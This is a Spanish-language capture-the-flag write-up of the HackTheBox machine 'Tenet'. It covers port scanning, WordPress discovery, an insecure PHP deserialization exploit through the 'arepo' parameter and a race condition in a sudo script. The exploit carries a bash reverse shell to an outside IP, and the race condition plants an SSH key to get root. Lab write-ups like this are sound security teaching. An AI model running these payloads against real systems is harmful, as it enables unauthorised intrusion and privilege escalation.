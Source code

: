 ```yaml
---
title: "HackTheBox - Tenet"
layout: single
excerpt: Este es el "Write-Up" de la máquina **Tenet** de la plataforma HackTheBox, esta máquina me pareció muy interesante basándonos en los ataques que hay que realizar para su intrusión, la escalada de privilegios me gusto bastante...
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/121809015-65fb7280-cc5b-11eb-99dc-a0521d0cdfec.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/121809015-65fb7280-cc5b-11eb-99dc-a0521d0cdfec.jpg"
categories:
  - HackTheBox
tags:
  - WriteUp
---
```


![image](https://user-images.githubusercontent.com/69093629/123269308-26f0db00-d4ff-11eb-99da-0ceda59d35ef.png)

Empece haciendo un escaneo con *Nmap* de los puertos y servicios que tiene abiertos la máquina.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -p- -v -Pn -n 10.10.10.223 -oG allPorts
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 15:15 CEST
Initiating SYN Stealth Scan at 15:15
Scanning 10.10.10.223 [65535 ports]
Discovered open port 22/tcp on 10.10.10.223
Discovered open port 80/tcp on 10.10.10.223
Completed SYN Stealth Scan at 15:16, 13.01s elapsed (65535 total ports)
Nmap scan report for 10.10.10.223
Host is up (0.087s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.16 seconds
           Raw packets sent: 65595 (2.886MB) | Rcvd: 65535 (2.621MB)
``` 

| NAME  | Tenet    | 
| ------------- |:-------------:| 
| MACHINE RATING     | ★★★★   |
| USER OWNS     | 6471 👤      |   
| SYSTEM OWNS | 5707 #          |  
|  RELEASE DATE |  148 Days 🗓  |
| MACHINE CREATOR | egotisticalSW |

Tiene dos puertos abiertos, el primero de SSH y el segundo es un servidor web que corre por su puerto predeterminado, hice otro escaneo para ver la versión de cada servicio.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p22,80 10.10.10.223 -oN targeted                  
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 15:16 CEST
Nmap scan report for tenet.htb (10.10.10.223)
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.00 seconds
```

**Nmap** me reporto que estaba frente a un **WordPress**, quise verificar eso, para ello utilice "WhatWeb".

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ whatweb http://10.10.10.223/                                                                                   
http://10.10.10.223/ [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.223], Title[Apache2 Ubuntu Default Page: It works]
```

"WhatWeb" no me lo reporto, pero efectivamente estaba ante un WordPress, también hice un "Fuzzing" con "Gobuster" para ver si me encontraba algún directorio potencial.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ gobuster dir -u "http://10.10.10.223/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.223/
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/06/13 15:18:35 Starting gobuster
===============================================================
/wordpress (Status: 301)
Progress: 2467 / 220562 (1.12%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/06/13 15:18:45 Finished
===============================================================
```

Efectivamente pude confirmar que era un WordPress, me fui a la página para ver que había.

![Captura de pantalla (551)](https://user-images.githubusercontent.com/69093629/121888429-437b5f00-cd18-11eb-8fbc-6124a90535a7.png)

Al parecer se estaba aplicando "Virtual Hosting" y no estába apuntando al dominio que tiene alojado el host, mire el código fuente y **tenet.htb** es el dominio desde el que estaba apuntando el host.

![Captura de pantalla (552)](https://user-images.githubusercontent.com/69093629/121809327-ac9d9c80-cc5c-11eb-86ec-86d08fb0ff60.png)

Simplemente lo incluí en */etc/hosts* para que apunte al host y poder ver lo que tenía.

![Captura de pantalla (553)](https://user-images.githubusercontent.com/69093629/121809395-e53d7600-cc5c-11eb-96a8-f48f9f4990ba.png)

Ahora si pude ver lo que contenía realmente.

![Captura de pantalla (554)](https://user-images.githubusercontent.com/69093629/121809429-09995280-cc5d-11eb-8196-1d61333f3fbc.png)

Encontré un usuario potencial.

![Captura de pantalla (556)](https://user-images.githubusercontent.com/69093629/121810092-b5dc3880-cc5f-11eb-9c75-65a03d80cc77.png)

Quise probarlo en WordPress, ya que te permite la enumeración de usuarios.

![Captura de pantalla (557)](https://user-images.githubusercontent.com/69093629/121810121-d73d2480-cc5f-11eb-8d43-8f2577c303a7.png)

El usuario era válido, pensé en hacer fuerza bruta, pero quería indagar más en la página, también vi este comentario que me llamo mucho la atención.

![Captura de pantalla (525)](https://user-images.githubusercontent.com/69093629/121810193-1ec3b080-cc60-11eb-9e2b-5cf7e51df2ec.png)

Probando distintas cosas, llegue a dar con la conclusión de que **sator** es un subdominio de **tenet.htb**, lo incluí en el */etc/hosts*.

![Captura de pantalla (558)](https://user-images.githubusercontent.com/69093629/121810525-84fd0300-cc61-11eb-9ae0-81f2499e2876.png)

En el comentario también mencionaba algo de PHP junto a sator, probé a unirlos y ver si era una archivo PHP, al parecer si lo era, esto es lo que tenía.

![Captura de pantalla (559)](https://user-images.githubusercontent.com/69093629/121810575-c097cd00-cc61-11eb-9343-1315250f0b4e.png)

El comentario hablaba de un "backup", por lo que me dio por probar añadir un **.bak** al archivo **sator.php** y me descargo un archivo.

![Captura de pantalla (560)](https://user-images.githubusercontent.com/69093629/121810801-7cf19300-cc62-11eb-8b51-214000faa57a.png)

Le hice un cat para ver su contenido.

![Captura de pantalla (561)](https://user-images.githubusercontent.com/69093629/121810890-c4781f00-cc62-11eb-858a-9d3d04939eb0.png)

Al parecer era el código fuente de **sator.php**, esto me iba a permitir plantear más bien el siguiente paso de la intrusión, el código lo que hace es recibir un input desde el parámetro arepo y lo deserializa, esto era un ataque de deserializacion insegura por *PHP* como una casa, ahora lo que tenía que hacer es crear el código malicioso serializado para que en la deserializacion ejecute mi sentencia maliciosa en *PHP*, en este caso una reverse shell por netcat.

Este es el código PHP que utilice para la serialización.

```php
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ php --interactive
php > class DatabaseExport {
php > public $user_file = 'shell.php';
php > public $data = '<?php shell_exec("bash -c \'bash -i >& /dev/tcp/10.10.16.5/443 0>&1\'"); ?>'; }
php > print urlencode(serialize(new DatabaseExport));
```

Una vez serializado lo introduje en el input de "arepo" (**http://10.10.10.223/sator.php?arepo={code_serialize}**)

![Captura de pantalla (562)](https://user-images.githubusercontent.com/69093629/121811486-d8248500-cc64-11eb-8952-d1bb204c05f7.png)

Y me otorgo una shell por netcat.

![Captura de pantalla (563)](https://user-images.githubusercontent.com/69093629/121811527-fe4a2500-cc64-11eb-9b57-35ba4ddc8005.png)

Hice un tratamiento de la TTY e intenté visualizar la "flag" de "user" pero no tenía permisos, me tenía que convertir en el usuario neil.

![Captura de pantalla (568)](https://user-images.githubusercontent.com/69093629/121811909-330aac00-cc66-11eb-8df0-6212cfa8fb17.png)

Recordé que estaba tratando con un WordPress, así que busque y visualice su archivo de configuración que contiene la contraseña.

![Captura de pantalla (566)](https://user-images.githubusercontent.com/69093629/121811799-c2638f80-cc65-11eb-8424-6a3229250d21.png)

Probé a autenticarme como neil y funciono.

![Captura de pantalla (567)](https://user-images.githubusercontent.com/69093629/121811843-f048d400-cc65-11eb-8cd8-69c4e0a8808c.png)

Visualice la "flag", ahora solo faltaba la escalada de privilegios, hice un ```sudo -l``` para ver si se podía ejecutar algo como el usuario ROOT y me encontré un script.

![Captura de pantalla (569)](https://user-images.githubusercontent.com/69093629/121812543-867df980-cc68-11eb-8464-ef7c9e43149e.png)

Le hice un "cat" a la ruta absoluta con ```xargs``` para ver que es lo que hacía.

![Captura de pantalla (570)](https://user-images.githubusercontent.com/69093629/121812621-cba22b80-cc68-11eb-9977-c543435c1d0d.png)

Lo que hace el script es crear una clave **id_rsa.pub** y alojarla en */tmp/ssh-{**XXXXX**}->*(**caracteres aleatorios**) y luego copia el contenido del archivo en **known_hosts**. Si tenemos la capacidad de incluir nuestra clave publica en */tmp* antes de que se copie a **known_hosts** podremos iniciar en SSH como el usuario ROOT. Para ello hice uso del siguiente comando en una ventana autenticado en SSH como el usuario neil.

```bash
neil@tenet~$ while true; do echo "{SSH_PUBLIC} | tee /tmp/ssh* > /dev/null; done"
```

![Captura de pantalla (571)](https://user-images.githubusercontent.com/69093629/121813113-eaa1bd00-cc6a-11eb-8235-9326d8776daf.png)

Y en otra ventana con SSH como el usuario neil le di permisos de ejecución al script y lo ejecute recursivamente unas cuantas veces.

![Captura de pantalla (572)](https://user-images.githubusercontent.com/69093629/121813150-03aa6e00-cc6b-11eb-8d89-c1c7fb70cb0c.png)

```bash
neil@tenet~$ sudo ./usr/local/bin/enableSSH.sh
```

y...

![Captura de pantalla (573)](https://user-images.githubusercontent.com/69093629/121813339-e1fdb680-cc6b-11eb-8add-2755686ea960.jpg)




